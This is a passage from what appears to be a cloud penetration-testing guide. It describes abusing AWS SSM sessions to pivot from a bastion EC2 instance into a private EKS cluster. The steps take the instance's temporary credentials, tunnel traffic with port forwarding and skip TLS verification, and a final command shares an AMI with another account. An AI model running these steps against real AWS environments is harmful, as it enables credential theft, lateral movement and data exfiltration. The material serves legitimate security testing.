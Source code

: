 Required permissions:

- `ssm:StartSession`

In addition to command execution, SSM allows for traffic tunneling which can be abused to pivot from EC2 instances that do not have network access because of Security Groups or NACLs.
One of the scenarios where this is useful is pivoting from a [Bastion Host](https://www.geeksforgeeks.org/what-is-aws-bastion-host/) to a private EKS cluster.

> In order to start a session you need the SessionManagerPlugin installed: https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html

1. Install the SessionManagerPlugin on your machine
2. Log in to the Bastion EC2 using the following command:

```shell
aws ssm start-session --target "$INSTANCE_ID"
```

3. Get the Bastion EC2 AWS temporary credentials with the [Abusing SSRF in AWS EC2 environment](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#abusing-ssrf-in-aws-ec2-environment) script
4. Transfer the credentials to your own machine in the `$HOME/.aws/credentials` file as `[bastion-ec2]` profile
5. Log in to EKS as the Bastion EC2:

```shell
aws eks update-kubeconfig --profile bastion-ec2 --region <EKS-CLUSTER-REGION> --name <EKS-CLUSTER-NAME>
```

6. Update the `server` field in `$HOME/.kube/config` file to point to `https://localhost`
7. Create an SSM tunnel as follows:

```shell
sudo aws ssm start-session --target $INSTANCE_ID --document-name AWS-StartPortForwardingSessionToRemoteHost --parameters '{"host":["<TARGET-IP-OR-DOMAIN>"],"portNumber":["443"], "localPortNumber":["443"]}' --region <BASTION-INSTANCE-REGION>
```

8. The traffic from the `kubectl` tool is now forwarded throug the SSM tunnel via the Bastion EC2 and you can access the private EKS cluster from your own machine by running:

```shell
kubectl get pods --insecure-skip-tls-verify
```

Note that the SSL connections will fail unless you set the `--insecure-skip-tls-verify ` flag (or its equivalent in K8s audit tools). Seeing that the traffic is tunnelled through the secure AWS SSM tunnel, you are safe from any sort of MitM attacks.

Finally, this technique is not specific to attacking private EKS clusters. You can set arbitrary domains and ports to pivot to any other AWS service or a custom application.

### Share AMI

```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
